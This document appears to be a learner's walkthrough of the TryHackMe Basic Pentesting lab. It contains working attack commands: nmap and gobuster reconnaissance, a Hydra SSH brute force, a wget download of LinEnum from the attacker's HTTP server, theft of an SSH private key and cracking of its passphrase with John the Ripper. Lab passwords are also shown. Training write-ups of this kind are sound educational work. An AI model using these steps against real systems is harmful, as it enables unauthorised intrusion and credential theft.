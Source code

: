 # H1 Basic Pen Testing Report

**Target Host - 10.10.162.245**

**Local Host - 10.4.65.102**

I start by executing a `nmap -sV -A 10.10.162.245` scan to locate open ports, services, versions and the operating system.

![](Screenshots/nmap_results.png)

Nmap reveals that ports 80 & 8080 are open.  I will try locating the webpage

![](Screenshots/WebGUI_normal_page.JPG)

Accessing the web page results in a blank page indicating it is undergoing maintenance.  Lets try using port 8080 instead.

![](Screenshots/Web_Gui_Port_8080.JPG)

Accessing via port 8080 indicates that there may be directories hidden inside of the web gui that aren't visible.  I will use gobuster to identify if this is correct.

I type the following command into the kali terminal:

`gobuster dir -u http:10.10.162.245 -w /usr/share/wordlists/dirbuster/directory-list-2.3.medium.txt`

dir =  looks for hidden directories in the URL specified.

-u = specifies the URL to look for directories within.

-w = applies wordlist with common directory names as a dictionary to cross reference and help locate directories.

![](Screenshots/go_buster.JPG)

Gobuster has identified a hidden directory `/development` exists on the webpage.  Now I can type in `http://10.10.162.245/development` into the web gui to access this.

![](Screenshots/WebGUI_Hidden_page.JPG)

Navigating to the hidden url has revealed 2x .txt files called dev and j.  The contents of j indicate that the user j has a weak password which I can attempt to brute as identified by someone named k.  Both of these are also potential usernames.  The contents of dev indicate that there may be useful information in /etc/shadow.

From my previous nmap scan I know that port 22/SSH is open so I can attempt to ssh into the server and use j or k as the username.

![](Screenshots/SSH_Access_via_user_J.JPG)

Bingo.  I can ssh into the server and successfully guess that the username is j.  Now I can run a password cracking tool to brute force the password - for this I will use Hydra and the rockyou.txt common password dump wordlist.  The wordlist is located in `/usr/share/wordlists/rockyou.txt`

Before I attempt to brute force I will attempt to locate information using SMB as it is also open as identified via nmap earlier.

![](Screenshots/SMB_Client_Permissions.JPG)

Using the command `smbmap -H 10.10.162.245` I can identify the host share permissions.  This has identified that Anonymous Read only access is available which is excellent as we can enter without a password.

Next I will use the command `smbclient \\\\10.10.162.245\\anonymous` to gain read only access to the client via SMB.  Once I have access I will enter a `ls` command to locate the contents of the current directory - this identifies a txt file called `staff.txt`

![](Screenshots/SMB_Shell.JPG)

I open the contents of the staff.txt file by entering the command `cat staff.txt`.  This reveals 2 staff members named Jan & Kay.  Excellent as this seems to match up with what we identified earlier with j & k.

Now I will attempt to use Hydra to brute force all possible username combinations `j, k, J, K, Jan, Kay, jan, kay` using the following command.

`sudo hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.111.49 ssh` **- please note the IP has changed as the victim attack box timed out**

-l = Sets the username as jan

-P = Sets the password but in this case its pointing towards a common password list called rockyou.txt.  Basically Hydra will brute force using every password in the rockyou.txt file against the username jan to find a successful match.

ssh = Tells Hydra to attack via ssh.

![](Screenshots/Successful_brute_force_credentials_viewed.JPG)

As per above I can confirm the hydra attack was succesful in identifying the password for user jan is `armando`.  Now I can ssh into the client using the command `ssh jan@10.10.110.118` and enter the password `armando`. **- please note the IP has changed as the victim attack box timed out**

![](Screenshots/SSH_Successful_login.JPG)

Now that I can successfully login to the server with the user account jan - I am to enumerate privileges.  For this I will use the LiNEnum script on the victim machine to locate potential vectors (Privelage escalation script to locate useful information for potential vectors to escalate privilege).  To achieve this I will need to transfer the script over to the server from my kali machine.  I will set my machine up as a HTTP server using the command `python3 -m http.server`

![](Screenshots/ATK_MACHINE_AS_HTTP_Server.JPG)

As you can see I can now access my machine via the web gui through the my `ip_address:8000 (http://10.4.65.102:8000)`.  For convenience sake I pasted this LiNEnum script into my root directory so it is easily accessible. 

![](Screenshots/Copying_LinENum.sh_to_Parent_Directory.JPG)

Now all I need to do is retrieve this script from the victims machine.  I attempt do this from the default directory logged in as user jan however I am unsuccessful using the command `wget http://10.4.65.102:8000/LinEnum.sh`, but I receive a Permission Denied Error.  I will try navigating to the /tmp directory using the command `cd /tmp` as it usually has write permissions.  From here I will attempt to retrieve the .sh script again.

![](Screenshots/Retrieving_SH_SCRIPT_VIA_SSH_IN_TMP_DIRECTORY.JPG)

Retrieving the script is sucessfuly via the tmp directory.  Now I can execute the bash script using the command `bash LinEnum.sh`

![](Screenshots/EXECUTING_LINENUM_VIA_SSH.JPG)

Now that I have executed LinEnum, I have to determine how I can enumerate permissions or retrieve useful information.  On the victim server I identify current directory contents by using `ls` and locate a usr folder.  I navigate to the and identify another user name kay.  From there I identify her .bak pass file. 


![](Screenshots/Locating_User_Kay_Pass.bak.JPG)
**Please note there is a vast majority of useful information here to retrieve but for the purpose of this TryHackMe room I will attempt to retrieve this password)**

I navigate back to the user kay directory and enter `ls -la` to identify any hidden directors and associated permissions.  I identify the sub folder `.ssh`.  Navigating here reveals the `id_rsa` file which is the user kay's private RSA key associated with her SSH login. - excellent. 


 I enter the command `id_rsa` to identify the rsa key and I copy this output and open up my alternate Kali shell and paste this into a text file using the command `nano.txt`

 ![](Screenshots/ID_RSA_EXECUTE_PERMISSIONS.JPG)

I now give the file execute permissions by typing `chmod +x id_rsa`.  Now I can try to ssh back into the shell using user `kay` this time with the following command `ssh -i id_rsa kay@10.10.153.90`.  Unfortunately the password is passphrase is protected.

![](Screenshots/JOHN_ID_RSA_HASH_KEY_OUTPUT.JPG)

I can use an offline password cracking tool such as John the Ripper to brute force this.  I locate the ssh john the ripper file `ssh2john.py` in `usr/share/john`.  I cd back to the root directory and execute the password cracking .py file against the rsa key using the following command `python3 /usr/share/john/ssh2john.py id_rsa`


![](Screenshots/HASH.TXT%20JOHN%20COMMAND.JPG)

This appears to print out a hash key.  I enter the same command with `> hash.txt` added to the end to print that hash output to a txt file.

From here I can run john the ripper against the hash.txt file using the rockyou.txt wordlist once again to brute force the passphrase of the SSH private key passphrase.

![](Screenshots/JOHN_OUTPUT_PASSWORD%3Dbeeswax.JPG)


This reveals the the passphrase for the id_rsa file as `beeswax`

Now i can enter the web server as user kay by entering the command `ssh -i id_rsa kay@10.10.153.90`.  The victim server will prompt for a passphrase oif the ssh rsa file which I know now as `beeswax`.  I enter the passphrase and successfully get ssh access to the server as kay.

![](Screenshots/LOGGED_IN_AS_KAY.JPG)

The final task is to identify the password of the user kay to complete this room.  I attemp to locate any hidden files by entering `ls -la` and identify `pass.bak`.  I execute this by entering `cat pass.bak` and it reveals the password to be:
`heresareallystrongpasswordthatfollowsthepasswordpolicy$$`